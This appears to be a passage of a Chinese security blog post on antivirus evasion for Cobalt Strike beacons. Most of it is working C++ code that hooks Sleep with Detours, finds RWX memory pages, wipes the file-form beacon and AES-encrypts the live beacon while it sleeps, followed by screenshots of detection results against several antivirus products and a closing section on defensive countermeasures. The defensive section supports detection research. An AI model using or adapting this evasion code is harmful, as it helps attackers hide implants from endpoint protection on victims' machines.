1、hook virtualAlloc函数；shellcode拉取beacon，是通过VirtualAlloc开辟的空间；反射加载函数，自加载的时候也是VirtualAlloc一个空间，然后实现对应的”loadlibrary“工程；

2、仔细观察，你会发现，不管是文件形式的beacon还是内存形式的beacon，其申请的空间都是私有的可读可写可执行的空间，其他正常内存属性都不会是这样；

如下图，右边是之前的属性（RW），左边是被处理修改后的属性(ERW)



所以我们可以通过内存页遍历，从内存属性出发去找对应的属性，然后做标记；

这里唯一的一个问题就是如何曲风哪个是内存beacon那个是文件形式的beacon，笔者刚开始想当然的觉得，第一个低位置0x84000内存是文件形式的beacon，第二个高位置0x2B2000是内存形式的beacon，因为首先从大小上看，按道理文件形式的beacon大小肯定是i西澳娱内存形式的beacon的，因为内存对齐单位通常是0X1000 文件对齐单位是通常是0x200；其次默认觉得先申请的是低位置空间的，后申请的是高位置空间的，哈哈哈；然后事实是先后申请和内存位置的高低没有任何关系；后来测试发现，有时候内存形式beacon在文件形式beacon之前，有时候又恰巧相反；

所以我们能区分两者，简单的方式，是”反着看“大小；有点离谱，这里笔者也没懂，为什么会这样，为什么cobaltstrike在申请一个存储文件形式beacon的空间的时候申请了一个相对大的空间，在申请一个内存形式beacon的空间的时候申请了一个相对小的空间；

代码实现：

这里实现hook是通过detours库来实现的；

```php
​  
// 加解密Beacon  
void My\_Encrypt()  
{  
    // 定位到真正的Beacon内存页  
    MemoryAttrib Beacon \= memoryInfo.memoryPage\[memoryInfo.index \- 1\];  
​  
​  
    DWORD bufSize \= Beacon.size;  
​  
    unsigned char\* buffer \= (unsigned char\*)(Beacon.address);  
    int bufSizeRounded \= (bufSize \- (bufSize % sizeof(unsigned int)));  
​  
​  

    //AESEncode(buffer,Bufsize);//加密拉伸后的beacon  
    AESEncode(buffer, bufSizeRounded);//加密拉伸后的beacon  
​  
    DWORD oldProt;  
​  
    // 将内存页设置为可读可写  
    VirtualProtect(Beacon.address, Beacon.size, PAGE\_READWRITE, &oldProt);  
    printf("Beacon已加密并将内存页属性调整为 RW.\\n");  
}  
​  
void My\_Decrypt()  
{  
    // 定位到真正的Beacon内存页  
    MemoryAttrib Beacon \= memoryInfo.memoryPage\[memoryInfo.index \- 1\];  
    DWORD bufSize \= Beacon.size;  
    unsigned char\* buffer \= (unsigned char\*)(Beacon.address);  
    int bufSizeRounded \= (bufSize \- (bufSize % sizeof(unsigned int)));  
    //int bufsize = bufSize % sizeof(unsigned int);  
​  
    // 对Beacon进行加密或解密  
    //for (int i = 0; i < bufSizeRounded; i++)  
    //{  
    //  buffer\[i\] ^= memoryInfo.key;    // 简单的异或加解密  
    //}  
    AESDecode(buffer, bufSizeRounded);  
    //AESDecode(buffer,bufsize);  
​  
    DWORD oldProt;  
​  
​  
        // 将内存页设置为可读可写可执行  
    VirtualProtect(Beacon.address, Beacon.size, PAGE\_EXECUTE\_READWRITE, &oldProt);  
    printf("Beacon已解密并内存页属性调整为 RWX.\\n");  
}  
​  

/\*  
    内存扫描  
\*/  
​  
void ScanMemoryMap()  
{  
    // 内存块信息结构体  
    MEMORY\_BASIC\_INFORMATION mbi;  
​  
    LPVOID lpAddress \= 0;  
    HANDLE hProcess \= OpenProcess(MAXIMUM\_ALLOWED, FALSE, GetCurrentProcessId());  
​  
    int\* index \= &memoryInfo.index;  
​  
    while (VirtualQueryEx(hProcess, lpAddress, &mbi, sizeof(mbi)))  
    {  
        // 查找可读可写可执行内存页  
        if (mbi.Protect \== PAGE\_EXECUTE\_READWRITE || mbi.Protect \== PAGE\_EXECUTE && mbi.Type \== MEM\_PRIVATE)  
        {  
​  
            // 保存内存信息  
            memoryInfo.memoryPage\[\*index\].address \= mbi.BaseAddress;  
            memoryInfo.memoryPage\[\*index\].size \= (DWORD)mbi.RegionSize;  
            printf("BaseAddr = %p\\n", memoryInfo.memoryPage\[\*index\].address);  
            (\*index)++;  
​  
            if ((\*index) \>= 3)  
                break;  
        }  
        // 更新到下一个内存页  
        lpAddress \= (LPVOID)((DWORD\_PTR)mbi.BaseAddress + mbi.RegionSize);  
    }  
​  
    // 更新为已扫描内存  
    memoryInfo.isScanMemory \= TRUE;  
​  
    // 释放shellcode内存页  
    VirtualFree(memoryInfo.memoryPage\[0\].address, 0, MEM\_RELEASE);  
}  
​  
​  
/\*  
    beacon 运行时已经可以清除内存的其他痕迹了  
\*/  
void DeleteOther() {  
    //这里发现一个问题，memoryscan之后，beacon的地址不一定是在filebeacon之后，但是大小存在差异（拉伸后的size小于file的size）;  
//所以这比较一下最后两个页，size小的为拉伸后的beacon，也就是需要加密的，size大的为文件beacon 直接初始化并修改内存属性为rw；  
    MemoryAttrib beacon\_1 \= memoryInfo.memoryPage\[memoryInfo.index \- 2\];  
    MemoryAttrib beacon\_2 \= memoryInfo.memoryPage\[memoryInfo.index \- 1\];  
    //printf("beacon1.size : %d\\n", beacon\_1.size);  
    //printf("beacon2.size : %d\\n", beacon\_2.size);  
    if (beacon\_2.size \> beacon\_1.size) {  
        //printf("发生交换\\n");  
        MemoryAttrib beacon\_3 \= beacon\_2;  
        memoryInfo.memoryPage\[memoryInfo.index \- 1\] \= memoryInfo.memoryPage\[memoryInfo.index \- 2\];  
        memoryInfo.memoryPage\[memoryInfo.index \- 2\] \= beacon\_3;  
    }  
​  
​  
    printf("FileBeacon Address at 0x%p\\n", memoryInfo.memoryPage\[memoryInfo.index \- 2\].address);  
    printf("Beacon Address at 0x%p\\n", memoryInfo.memoryPage\[memoryInfo.index \- 1\].address);  
​  
​  
    MemoryAttrib Beacon\_org \= memoryInfo.memoryPage\[memoryInfo.index \- 2\];  
    DWORD org\_bufSize \= Beacon\_org.size;  
    RtlSecureZeroMemory(Beacon\_org.address, org\_bufSize); // 文件形式的beacon消除  
    DWORD oldProt;  
    VirtualProtect(Beacon\_org.address, Beacon\_org.size, PAGE\_READWRITE, &oldProt);// 修改内存属性  
    printf("文件形式beacon已清除 \\n");  

    //RtlSecureZeroMemory(memoryInfo.shellcodeaddress,memoryInfo.shellcodesize ); // 残留的shellcode消除  
    printf("shellcode 地址：%x\\n", memoryInfo.shellcodeaddress);  
    memoryInfo.iscleaned \= TRUE;  
​  
​  
}  
//自定义函数指针函数  
static void(WINAPI\* OldSleep)(DWORD dwMilliseconds) \= Sleep;  
​  
void WINAPI My\_Sleep(DWORD dwMilliseconds) {  
    printf("调用sleep，休眠时间：%d\\n", dwMilliseconds);  
    //printf("oldsleep，地址是：0x%x\\n", OldSleep);  
    if (!memoryInfo.isScanMemory)   //扫描的动作只用发生一次  
        ScanMemoryMap();  
    if (!memoryInfo.iscleaned)  //清除动作只发生一次  
        DeleteOther();  
    My\_Encrypt();  
    OldSleep(dwMilliseconds);  
    My\_Decrypt();  
}  
​  
​  
void hookfun() {  
    DetourRestoreAfterWith();  
    DetourTransactionBegin();  
    DetourUpdateThread(GetCurrentThread());  
    DetourAttach(&(PVOID&)OldSleep, My\_Sleep);  
    //DetourAttach(&(PVOID&)OldVirtualAlloc, My\_VirtualAlloc);  
    if (0 \== DetourTransactionCommit())  
    {  
        printf("hooked succeed\\n");  
    }  
    else  
    {  
        printf("hook failed\\n");  
    }  
​  
}  
​
```

### 3、项目

上述所有代码项目地址：`https://github.com/minhangxiaohui/AvoidRandomKill`

# 0x04 免杀效果

## 360：


静态：



动态：



## 火绒：


静态：



动态：



## Kaspersky：





静态：



动态：



## 小红伞：

静态：



动态：这里被杀了



## windows defender：

静态：



动态：



## 微步在线沙箱：

`https://s.threatbook.com/report/file/0e91eeaf222c12231c4a808e0ff8a44e588768c2183325568387921277dccc01`



总体来看免杀效果还算是不错，可惜小红书的动态没过；

# 0x05 思考

作为蓝队角色，首先要践行“未知攻，焉知防”，学习攻击手段和技术方法；然后只有充分的了解了攻击的原理和授权，我们才能回过头来思考，如何与其对抗；笔者认为一个健康的学习过程，应该如此；

## 如何对抗文中免杀技术

这里我们主要来探讨下，如何对抗文中用到的动态免杀技术：

1、对抗反沙箱技术

-   （1、沙箱不要修改样本原文件的任何特征尤其是名字
    
-   （2、沙箱最好是能模拟真实互联网环境
    
-   （3、沙箱要做好一些能获取基础信息函数的hook，比如GetSystemInfo 这个api，篡改返回值，这样一些尝试通过cpu个数来区分正式环境和沙箱环境的样本就不起作用了
    
-   （4、针对样本检测时间加速这个问题，沙箱最好是不要无脑hook sleep这个api，而是要给其设置一个开关；当我们检测到代码中存在GetTickCount调用的时候，关闭sleep的hook，这样就不会被样本发现时间被加速了；
    
-   （5、如果是免费对外开放使用的沙箱，不要在报告中暴露一些路径信息，可以将样本放到沙箱的桌面；
    
    > 其他的反反沙箱技巧也有很多，以上是对本文提到的反沙箱技巧的对抗
    

2、对抗反动态内存扫描技术

-   （1、针对项目中的动态内存加密：杀软可以对 `VirtualProtect`进行hook（或者是更加底层的：`NtProtectVirtualMemory`），当发现其flNewProtect参数是`PAGE_EXECUTE_READWRIT`的时候，我们要对其尝试修改的lpAddress进行检查，使用内存扫描的yara规则，这样就可以及时准确的发现威胁。(上面小红伞感觉就是利用的这种方法，从而截杀的样本)
-   （2、杀软可以检查程序的“完整性”，扫描其ring3层的挂钩，劫持恶意样本自己的创建的挂钩；这就好比一些项目反杀软一样（如：[TartarusGate](https://forum.butian.net/share/%5BTartarusGate%5D(https%3A//github.com/trickster0/TartarusGate/tree/master))这个项目是二开[地狱之门](https://github.com/am0nsec/HellsGate)而来，其通过检查api的地址是否是以`e9`开始，也就是汇编中的jmp指令，如果发现了就更加上下的api来修复这个api），直接以牙还牙；通过同样的方式，我们的杀软也可以去监测/卸载一些软件的hook；
-   （3、可以通过行为配置动态内存扫描来对抗，例如杀软通过行为监控检测到一次cmd调用whoami的行为触发之后，杀软可以快速dump内存并扫描，这样可以及时的发现内存中还未来得及加密的内存，当然这里存在一个时间是否来得及的问题；

笔者才疏学浅，若文中存在错误观点，欢迎斧正。

参考：

[https://hstechdocs.helpsystems.com/manuals/cobaltstrike/current/userguide/content/topics/artifacts-antivirus\_artifact-kit-main.htm#\_Toc65482774](https://hstechdocs.helpsystems.com/manuals/cobaltstrike/current/userguide/content/topics/artifacts-antivirus_artifact-kit-main.htm#_Toc65482774)

[https://maidang.cool/2022/26991.html](https://maidang.cool/2022/26991.html)

[https://github.com/SergeyBel/AES](https://github.com/SergeyBel/AES)

[https://github.com/mgeeky/ShellcodeFluctuation](https://github.com/mgeeky/ShellcodeFluctuation)

[https://forum.butian.net/share/2017](https://forum.butian.net/share/2017)

[https://forum.butian.net/share/1934](https://forum.butian.net/share/1934)
